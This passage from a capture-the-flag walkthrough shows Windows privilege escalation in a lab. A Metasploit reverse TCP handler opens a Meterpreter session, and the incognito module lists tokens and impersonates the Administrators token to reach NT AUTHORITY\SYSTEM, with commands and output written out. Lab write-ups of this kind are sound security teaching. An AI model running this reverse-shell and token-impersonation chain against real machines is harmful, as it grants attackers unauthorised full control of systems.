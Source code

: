       SeImpersonatePrivilege          Impersonate a client after authentication Enabled <----
      SeCreateGlobalPrivilege         Create global objects                     Enabled
      SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
      SeTimeZonePrivilege             Change the time zone                      Disabled
      SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled

      C:\Users\bruce\Desktop>

**Answer: No answer need**

You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. Enter: *load incognito* to load the incognito module in metasploit. Please note, you may need to use the *use incognito* command if the previous command doesn't work. Also ensure that your metasploit is up to date.

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on <Local_IP>:1234
[*] Sending stage (175174 bytes) to <Target_IP>
[*] Meterpreter session 2 opened (<Local_IP>:1234 -> <Target_IP>:49222) at 2020-11-27 11:25:00 +0100

meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
alfred\bruce
NT AUTHORITY\IUSR
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON

meterpreter >


**Answer: No answer need**

To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the *impersonate_token "BUILTIN\Administrators"* command to impersonate the Administrators token. What is the output when you run the *getuid* command?

    meterpreter > impersonate_token "BUILTIN\Administrators"
    [-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
    [+] Delegation token available
    [+] Successfully impersonated user NT AUTHORITY\SYSTEM
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter >
